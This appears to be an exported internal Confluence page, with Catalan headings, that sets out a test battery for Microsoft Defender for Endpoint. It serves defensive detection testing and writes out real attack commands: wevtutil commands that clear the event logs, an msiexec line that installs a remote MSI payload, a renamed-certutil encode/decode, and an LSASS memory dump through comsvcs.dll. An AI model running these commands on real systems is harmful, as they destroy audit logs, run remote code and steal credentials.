





Seguretat : Bateria de proves de Windows Defender  

1.  [Seguretat](index.md)
2.  [Pàgina d'inici de la Unitat de Seguretat](15368362.md)
3.  [Procediments Unitat de Seguretat](Procediments-Unitat-de-Seguretat_81856210.md)
4.  [Microsoft 365 Defender - Manual d'administrador](93356745.md)

Seguretat : Bateria de proves de Windows Defender
=================================================

Created by Ivan Caballero, last modified on 07 agosto 2023

  

**Test protections state**
--------------------------

Previously AV solutions were tested with the use of Eicar. I’m not a huge fan of testing with Eicar. Ideally, test with some advanced testing. A good example is Red Atomic or the simulation lab of Defender for Endpoint.

Testing the protection state is important for testing the protection features and alerting/ detection capabilities in Defender for Endpoint. Based on MDE we have various components to test:

*   Network Protection
*   Defender AV/ Cloud Protection
*   EDR component
*   C2 Network Protection
*   Additional exploit guard (ASR, SmartScreen)

**EDR test: Clean Windows Event logs**
--------------------------------------

Run the following commands for checking the EDR reporting capabilities for malicious activities (cleaning Windows event logs)

wevtutil cl system

wevtutil cl application

wevtutil cl security

**EDR test: create a scheduled task**

For testing MITRE T1053 create a scheduled task. When correctly configured Defender for Endpoint alerts for a masqueraded task or service.

Run the following command:

schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\\Windows\\Temp\\current\_date.txt"

**EDR test: use of living off the land binary to run malicious code**

Testing the execution of LOLBAS payload.

Run the following command:

msiexec /q /i [https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true](https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true)

**AV+EDR test: Encode Certutil and decode**

Encode Certutil rename and decode. When configured correctly the process must be blocked by Defender AV behavior monitoring.

copy %windir%\\system32\\certutil.exe %temp%\\tcm.tmp

%temp%\\tcm.tmp -encode C:\\Windows\\System32\\calc.exe %temp%\\T1140\_calc2.txt

%temp%\\tcm.tmp -decode %temp%\\T1140\_calc2.txt %temp%\\T1140\_calc2\_decoded.exe

**AV test: Dump LSASS.exe memory using comsvcs.dll**

Run the following PowerShell command line for dumping LSASS.exe memory using comsvcs.dll. In all situations, the lsassdump hack tool must be prevented from running and dumping the secrets.

C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\\lsass-comsvcs.dmp full

**AV test: Block at First Sight**

Block at First Sight is a feature of Microsoft Defender Antivirus cloud-delivered protection that blocks and detect new malware within some seconds. Use the following test site for testing the BAFS feature: [BAFS – Microsoft Defender Testground](https://demo.wd.microsoft.com/Page/BAFS)

When correctly configured the file must be blocked automatically.

**AV test: Cloud-delivered protection**

When Cloud-delivered protection is enabled and correctly configured the file must be blocked. Download the test file. When detected/ blocked by Defender SmartScreen make sure the file is downloaded.

For more information see: [Microsoft Defender for Endpoint Cloud-delivered protection demonstration | Microsoft Learn](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/defender-endpoint-demonstration-cloud-delivered-protection?view=o365-worldwide)

**AV test: Network Protection**

Network protection is critical and part of Defender. As already explained in the earlier parts SmartScreen must be enabled for Microsoft Edge, for all 3rd-party browsers Network Protection must be in block mode.

Testing is possible by adding some indicators with the state **block** or using the test websites created by Microsoft.

Use the following website for testing Network Protection or SmartScreen:

[https://smartscreentestratings2.net/](https://smartscreentestratings2.net/)

Expected result in Chrome:

Expected result in Microsoft Edge:

**AV test: Network Protection Command and Control**

For testing the Command and Control (C2) detections in Defender for Endpoint/ Defender AV the Defender C2 test URL can be used.

Open PowerShell and run the following command:

Invoke-WebRequest -URI [https://commandcontrol.smartscreentestratings.com](https://commandcontrol.smartscreentestratings.com)

When correct the request was aborted with the following error: Could not create SSL/ TLS secure channel. Directly after running the PowerShell process is closed automatically.

  

**Defender for Endpoint – Evaluation & tutorials**

Part of Defender for Endpoint is the simulations and tutorials page. For each device the Microsoft simulations and Atomic Red team simulation files can be used for advanced testing.

  

Use the tutorials created by Microsoft for specific testing. The tutorials page contains test situations for document backdoors; fileless attacks; backdoor and custom detections.

  

  

  

  

  

Attachments:
------------

 [image2023-8-7\_9-58-53.png](attachments/93356988/93356991.png) (image/png)  
 [image2023-8-7\_9-59-26.png](attachments/93356988/93356992.png) (image/png)  
 [image2023-8-7\_9-59-52.png](attachments/93356988/93356993.png) (image/png)  
 [image2023-8-7\_10-0-27.png](attachments/93356988/93356994.png) (image/png)  
 [image2023-8-7\_10-1-12.png](attachments/93356988/93356996.png) (image/png)  

Document generated by Confluence on 07 junio 2025 00:08

[Atlassian](http://www.atlassian.com/)